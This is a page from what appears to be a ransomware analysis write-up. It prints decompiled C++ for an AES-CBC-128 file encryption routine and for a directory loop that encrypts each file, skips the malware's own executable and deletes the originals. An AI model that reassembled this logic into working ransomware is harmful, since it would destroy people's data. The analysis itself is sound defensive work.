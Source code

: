 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}[language=c++, caption=AES\_Encrypt\_140007080]
                      /* AES encrypt */
            InitEncryption_140008790
                      ((longlong)context_array,0x140086000,
                       (undefined8 *)IV_140086010);
            StartEncryption_140008450((longlong)context_array,buffer,0x3f0);
            printf((char *)
                   L"Successfully encrypted file buffer. Writing to destination fi le...\n"
                  );
                      /* Write encryted file */
            BVar2 = WriteFile(hFile,buffer,0x3f0,lpByteNum,(LPOVERLAPPED)0x0);
            if (BVar2 == 0) {
              DVar3 = GetLastError();
              Error_140007510(L"Error writing ciphertext.\n",DVar3);
              goto LAB_1400073da;
            }
          } while (!bVar1);
          thunk_FUN_14003d334(local_f0);
        }
      }
    }
\end{lstlisting}

\textbf{AES-CBC-128}



\section{Determine what files are targeted}


\textbf{EncryptAndRenameFiles\_140007590}
\begin{lstlisting}[language=c++, caption=EncryptAndRenameFiles\_140007590]
    do
    {
      /* Exclude Directory */
      if ((local_10e8.dwFileAttributes & 0x10) == 0)
      {
        CopyWPath_140007bc0(local_a68, 0x104, dir);
        input_addr = local_a68;
        ConcatWPath_140007b20(input_addr, 0x104, local_10e8.cFileName);
        GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
        thunk_FUN_14000c700((undefined8 *)local_e98,
                            (undefined8 *)local_10e8.cFileName, 6);
        /* Exclude "~en" */
        iVar2 = wcscmp(local_e98, L"~en");
        if (iVar2 != 0)
        {
          _Str2 = PathFindFileNameW(local_858);
          /* Exclude Malware Itelf */
          iVar2 = wcscmp(local_10e8.cFileName, _Str2);
          if (iVar2 != 0)
          {
            CopyWPath_140007bc0(local_648, 0x104, dir);
            output_addr = local_648;
            ConcatWPath_140007b20(output_addr, 0x104, (short *)&DAT_140070fd8);
            ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
            AES_Encrypt_140007080(input_addr, output_addr);
            DeleteFileW(input_addr);
          }
        }
      }
      BVar3 = FindNextFileW(local_1110, &local_10e8);
    } while (BVar3 != 0);
\end{lstlisting}
\end{document}
